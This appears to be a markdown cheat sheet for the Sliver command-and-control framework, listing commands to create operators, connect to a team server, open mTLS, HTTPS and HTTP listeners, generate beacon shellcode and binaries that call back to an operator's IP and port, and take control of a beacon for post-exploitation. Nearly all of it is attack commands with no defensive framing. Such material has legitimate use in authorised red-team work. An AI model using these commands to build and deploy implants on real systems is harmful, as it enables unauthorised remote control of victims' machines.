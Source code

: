 
#### Create New Operator
```
./sliver-server_linux operator -l <teamserver_ip> -p <teamserver_port> -n <username> -s /tmp/<username>.cfg
```
---
### Connect to Team Server
```
sliver-client import /tmp/<username>.cfg
sliver-client
```

### Create New Listener

#### MTLS
``` 
mtls -l 443 -L 0.0.0.0 -p
```

#### HTTPS
```
https -l 443 -L 0.0.0.0 -p
```

### HTTPS Domain
```
https --domain <domain> --cert /path/cert.pem --key /path/privkey.pem --website <website_name> -p
```

#### HTTP
```
http -l 80 -L 0.0.0.0 -p
```
---

## Payload Creation

### Generate Shellcode
```
generate beacon --mtls <ip address>:<port> -f shellcode
```

### Generate Binary
```
generate beacon --http <ip address>:<port>
```

## Post Exploitation

### Beacon
```
use <beacon_id>
```

